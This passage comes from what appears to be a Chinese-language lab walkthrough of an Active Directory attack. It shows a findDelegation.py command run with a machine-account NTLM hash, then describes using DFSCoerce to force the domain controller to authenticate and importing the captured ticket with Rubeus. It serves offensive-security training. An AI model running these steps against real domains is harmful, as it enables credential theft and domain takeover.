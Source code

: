 ```plain
proxychains findDelegation.py xiaorang.lab/'WIN19$' -hashes :6bdf6f041c914c9fd096f6a55bf63342 -dc-ip 172.22.4.7
```

[![](assets/1705540441-9d7347ab4a73c8405a35f20554c50269.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240116174855-768e0e12-b454-1.png)

非约束委派，这个需要我们强制域控访问这台主机，才能获取到相关信息，这里利用`DFSCoerce`强制 DC 访问域成员进而获取 TGT。

[![](assets/1705540441-66d3edefb240b43dae3c2eff753cb318.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240116174926-895451d2-b454-1.png)

使用`Rubeus.exe`导入票据

[![](assets/1705540441-38a1f6d7506eaa1186fa98c01c2d9ca0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240116174937-8f8902fa-b454-1.png)